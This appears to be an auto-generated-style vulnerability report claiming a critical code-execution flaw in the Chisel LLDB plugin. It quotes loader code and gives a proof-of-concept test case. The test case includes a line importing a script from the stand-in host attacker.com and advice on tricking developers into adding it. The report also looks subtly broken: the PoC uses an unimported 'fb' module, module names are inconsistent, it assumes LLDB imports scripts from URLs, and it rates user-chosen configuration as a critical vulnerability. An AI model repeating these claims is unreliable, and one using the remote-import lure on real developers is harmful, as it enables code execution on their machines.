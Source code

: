 * Vulnerability Name: Unrestricted Custom Command Execution
* Description:
    1. A developer installs Chisel by adding a line to their `~/.lldbinit` file that imports `fbchisellldb.py`.
    2. Chisel's initialization script, `fbchisellldb.py`, automatically loads custom commands from the `commands` directory within the Chisel installation directory.
    3. The `README.md` provides instructions for developers to add their own custom commands by creating Python scripts and using `fbobjclldb.loadCommandsInDirectory('/magical/commands/')` in their `.lldbinit`.
    4. If an attacker can trick a developer into adding a malicious `command script import` line to their `.lldbinit` file, pointing to a malicious Python script, this script will be executed by LLDB when Xcode starts or when the developer sources their `.lldbinit`.
    5. This malicious script can execute arbitrary Python code within the LLDB environment, which has the same privileges as the developer running Xcode.
* Impact:
    - **High/Critical**: Arbitrary code execution on the developer's machine. An attacker can potentially gain full control of the developer's environment, steal source code, credentials, or install malware.
* Vulnerability Rank: Critical
* Currently implemented mitigations:
    - None. The project explicitly encourages and facilitates the loading of custom commands from user-defined paths.
* Missing mitigations:
    - **Input validation and sanitization**: Chisel should not automatically load and execute any Python script pointed to by the user in `.lldbinit` without any form of validation or security checks.
    - **Warning to users**:  Clear warnings in the documentation about the security risks of adding custom commands from untrusted sources.
    - **Restricting command loading**:  Consider options to restrict custom command loading to specific, trusted directories, or implement a mechanism for developers to review and approve custom commands before execution.
* Preconditions:
    - The attacker needs to trick a developer into modifying their `~/.lldbinit` file to include a malicious `command script import` line. This could be achieved through social engineering, supply chain attacks (e.g., compromising a dependency), or by compromising a developer's machine through other means and modifying the `.lldbinit` file directly.
* Source code analysis:
    - **`/code/fbchisellldb.py`:**
        ```python
        def __lldb_init_module(debugger, dict):
            filePath = os.path.realpath(__file__)
            lldbHelperDir = os.path.dirname(filePath)

            commandsDirectory = os.path.join(lldbHelperDir, "commands")
            loadCommandsInDirectory(commandsDirectory)
        ```
        - The `__lldb_init_module` function, which is the entry point for Chisel when loaded into LLDB, immediately calls `loadCommandsInDirectory`.
        ```python
        def loadCommandsInDirectory(commandsDirectory):
            for file in os.listdir(commandsDirectory):
                fileName, fileExtension = os.path.splitext(file)
                if fileExtension == ".py":
                    module = imp.load_source(fileName, os.path.join(commandsDirectory, file))

                    if hasattr(module, "lldbinit"):
                        module.lldbinit()

                    if hasattr(module, "lldbcommands"):
                        module._loadedFunctions = {}
                        for command in module.lldbcommands():
                            loadCommand(
                                module, command, commandsDirectory, fileName, fileExtension
                            )
        ```
        - `loadCommandsInDirectory` iterates through all files in the specified `commandsDirectory`.
        - For each file ending in `.py`, it uses `imp.load_source` to load and execute the Python script as a module.
        - It then checks for `lldbinit` and `lldbcommands` functions within the loaded module and executes them.
    - **`/code/README.md`:**
        ```markdown
        ## Custom Commands
        ...
        ```python
        # ~/.lldbinit
        ...
        command script import /path/to/fbobjclldb.py
        script fbobjclldb.loadCommandsInDirectory('/magical/commands/')
        ```
        - The documentation explicitly instructs users on how to load custom commands using `loadCommandsInDirectory` and import arbitrary Python scripts.

    - **Visualization:**

    ```mermaid
    graph LR
        A[lldb starts] --> B(Reads ~/.lldbinit);
        B --> C{command script import /path/to/fbchisellldb.py};
        C -- yes --> D[fbchisellldb.py init];
        D --> E[loadCommandsInDirectory];
        E --> F{Iterate files in commandsDirectory};
        F -- .py file found --> G[imp.load_source(file)];
        G --> H[Execute Python code];
        H --> I{Check for lldbcommands/lldbinit};
        I -- lldbcommands --> J[Register custom commands with LLDB];
        I -- lldbinit --> K[Execute lldbinit function];
        B --> L{command script import /path/to/malicious_script.py};
        L -- yes --> M[malicious_script.py init];
        M --> N[Execute arbitrary malicious code];
    ```

* Security test case:
    1. **Attacker creates a malicious Python script (e.g., `malicious_command.py`)**:
        ```python
        import lldb
        import os

        def lldbcommands():
            return [MaliciousCommand()]

        class MaliciousCommand(fb.FBCommand):
            def name(self):
                return 'malicious_cmd'

            def description(self):
                return 'This is a malicious command that will create a file on your desktop.'

            def run(self, arguments, options):
                with open(os.path.expanduser("~/Desktop/ATTACKED.txt"), "w") as f:
                    f.write("You have been ATTACKED by a malicious Chisel command!")
                print("Malicious command executed. Check your desktop.")

        ```
    2. **Attacker hosts this script on a publicly accessible location (e.g., `https://attacker.com/malicious_command.py`)**.
    3. **Attacker tricks the developer into adding the following line to their `~/.lldbinit` file**:
       ```python
       command script import https://attacker.com/malicious_command.py
       ```
       This could be done via email, chat, or a compromised website, instructing the developer to add this line for "debugging purposes" or to "install a helpful plugin".
    4. **The developer restarts Xcode or sources their `.lldbinit` file in an LLDB session.**
    5. **LLDB executes the `malicious_command.py` script.**
    6. **The `MaliciousCommand` is registered and available in LLDB.**
    7. **The developer (or even automatically when LLDB loads the script) can execute the malicious command by typing `malicious_cmd` in the LLDB console.**
    8. **The malicious command executes arbitrary code (in this test case, creating a file on the desktop), demonstrating the vulnerability.**
